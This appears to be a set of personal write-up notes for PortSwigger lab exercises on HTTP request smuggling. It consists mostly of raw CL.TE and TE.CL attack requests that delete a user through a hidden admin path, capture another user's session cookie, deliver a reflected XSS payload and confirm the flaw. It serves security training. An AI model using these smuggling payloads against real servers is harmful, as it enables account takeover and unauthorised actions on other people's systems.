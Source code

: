 # HTTP Request Smuggling

https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te

![](Pasted%20image%2020220801235522.png)

![](Pasted%20image%2020220801235609.png)

## HTTP Request Smuggling

Steps
1. Make sure you can smuggle things through
2. Test payloads, character at a time

https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te
![](https://i.imgur.com/PDZpK5d.png)



https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl

https://kleiton0x00.github.io/posts/Exploiting-HTTP-Request-Smuggling-(TE.CL)-XSS-to-website-takeover/

https://portswigger.net/web-security/request-smuggling/
![](https://i.imgur.com/fFhZCdn.png)

```bash=
(base) [hacker@hackerbook 01_http1_clte]$ python3
Python 3.8.5 (default, Sep  4 2020, 07:30:14) 
[GCC 7.3.0] :: Anaconda, Inc. on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> print("\r\n\r\n")



>>> 
```

```
POST / HTTP/1.1
Host: 0a57008303fc5386c05f0e2800e70018.web-security-academy.net
Content-Length: 4
Transfer-Encoding: chunked

12
GPOST / HTTP/1.1

0






```

0x12 characters because
"GPOST / HTTP/1.1" is 0x10 characters 
"\r\n" is 2 characters
Then separate chunk with another "\r\n"

![](https://i.imgur.com/m2ubw2u.png)


https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests

After tinkering around with the requests (bruteforcing length wise etc.)
![](https://i.imgur.com/aaAq08W.png)

```
POST / HTTP/1.1
Host: 0abe009604cf3ca0c04c252600620039.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 333

0

POST /post/comment HTTP/1.1
Host: 0abe009604cf3ca0c04c252600620039.web-security-academy.net
Cookie: session=VyVZBlAQabTvknzxAIPQiIq3UiCQmq7t
Content-Length: 780
Content-Type: application/x-www-form-urlencoded

csrf=KSmNOkJylzsBM91Y4x7NzA2xNqfCcw8W&postId=8&name=aaa&email=email%40email.com&website=http%3A%2F%2Fa&comment=a
```


The Content-Length of the smuggled request should be long enough to store the data but small enough to terminate after the request

```
aGET / HTTP/1.1 Host: 0abe009604cf3ca0c04c252600620039.web-security-academy.net Connection: keep-alive Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.125 Safari/537.36 Accept: text/html,application/xhtml xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9 Sec-Fetch-Site: none Sec-Fetch-Mode: navigate Sec-Fetch-User: ?1 Sec-Fetch-Dest: document Accept-Encoding: gzip, deflate, br Accept-Language: en-US Cookie: victim-fingerprint=o0t8ztQa3oxtd6zDM2kjfsML8C17vXGC; secret=534LEZGPnommxTlOf5r13e95y9vzfWKU; session=2f4ozEnIVsbr1hc4fVaUi2DWZg2QCx1i
```

![](https://i.imgur.com/bE0lX6b.png)

Content Length around 750-850

Change session cookie to solve the lab

https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te
![](https://i.imgur.com/8ddC7L6.png)

```
POST / HTTP/1.1
Host: 0a850046037adeb3c0ce07d900020037.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Transfer-encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Cookie: session=Fe59m5YqNnoa4XpBonpbOtpZ2PpZB8bT
Host: localhost
Content-Length: 182


```


```
POST / HTTP/1.1
Host: 0aef00e7038f13e0c043352b008300ec.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

88
GET /admin/delete?username=carlos HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: localhost
Content-Length: 282

x=1
0







```

https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting
![](https://i.imgur.com/KbYe8Gd.png)
![](https://i.imgur.com/U1QZ6XV.png)
```
POST / HTTP/1.1
Host: 0a28007d046483e9c0498b6600630043.web-security-academy.net
Content-Length: 75
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Host: localhost
Content-Length: 112

search=aaaaaa
```

![](https://i.imgur.com/30cf7T2.png)

```
POST / HTTP/1.1
Host: 0a28007d046483e9c0498b6600630043.web-security-academy.net
Content-Length: 99
Transfer-Encoding: chunked

0

POST /admin HTTP/1.1
Host: localhost
X-ryFdfu-Ip: 127.0.0.1
Content-Length: 112

useless=
```

https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss

![](https://i.imgur.com/OOuMvKY.png)

```
POST / HTTP/1.1
Host: 0ad1009c047e4fa7c04295cd00b70019.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 100
Transfer-encoding: chunked

0

GET /post?postId=10 HTTP/1.1
User-Agent:  "><script>alert(1);</script>
Content-Length: 10


```

## Confirming Vulnerability

https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses
```
POST / HTTP/1.1
Host: 0a4600620350a5a0c18b5b18000c00da.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses
```
POST / HTTP/1.1
Host: 0ab100390479fcb4c0e60407002a00b2.web-security-academy.net
Content-Length: 4
Transfer-Encoding: chunked

9e
GET /404 HTTP/1.1
Host: 0ab100390479fcb4c0e60407002a00b2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

x=
0







```
